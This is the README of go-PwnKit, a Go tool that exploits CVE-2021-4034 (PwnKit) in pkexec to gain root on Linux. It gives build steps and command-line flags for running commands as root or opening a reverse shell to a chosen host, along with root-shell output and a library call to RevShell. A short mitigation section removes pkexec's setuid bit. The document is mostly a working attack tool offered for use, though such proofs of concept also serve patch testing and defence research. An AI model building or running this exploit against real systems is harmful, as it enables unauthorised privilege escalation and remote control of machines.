 # go-PwnKit

A pure-Go implementation of the **CVE-2021-4034 PwnKit** exploit.



## Installation

```bash
git clone git@github.com:OXDBXKXO/go-PwnKit.git
cd go-PwnKit
make
```



As the exploit relies on a malicious shared library, a **PWN.so** file is generated from ***payload.go*** and embed in the resulting `exploit` executable.

The ***Makefile*** uses `sed` to temporarily change the package name of the ***payload.go*** file to `main`, hence making this ***Makefile*** Linux-only.



## Usage

#### As standalone executable

```
$> ./exploit -h
Usage of ./exploit:
  -c string
        Command to execute as root (default "/bin/sh")
  -g    Append id and greetings to your command
  -r string
        Optionally open a reverse-shell instead. Format: host:port
```

The exploit can either be used with a command (`-c`) or as a reverse-shell (`-r`).



```
$> ./exploit -g   
uid=0(root) gid=0(root) groups=0(root),994(input),1000(sudo),1001(oxdbxkxo)
hax0r in the system!
sh-5.1#
```



#### As package

```go
package main

import (
	"github.com/OXDBXKXO/go-PwnKit"
)

func main() {
	gopwnkit.Command("id")
	// or
	gopwnkit.RevShell("127.0.0.1:1137")
}

```

:warning: As the exploit relies on `syscall.Exec`, which replaces the current process by the one invoked, it is not possible to do anything else after invocation.



## Demonstration

```bash
$> ./exploit
sh-5.1# id
uid=0(root) gid=0(root) groups=0(root)
sh-5.1#
```



## Mitigation

Patch `pkexec` if possible, other disable the ***setuid*** bit on the `pkexec` binary.

```bash
chmod 0755 /usr/bin/pkexec
```



## Credits

This project is inspired by several other PoCs of the **PwnKit** exploit.



Thanks to [An00bRektn](https://github.com/An00bRektn/CVE-2021-4034) for the straight-forward exploit setup.

Thanks to [PaterGottesman](https://github.com/PeterGottesman/pwnkit-exploit) and [berdav](https://github.com/berdav/CVE-2021-4034) for the clarity of the exploit explanation.

Thanks to [dzonerzy](https://github.com/dzonerzy/poc-cve-2021-4034) for the *GIO_USE_VFS* trick.
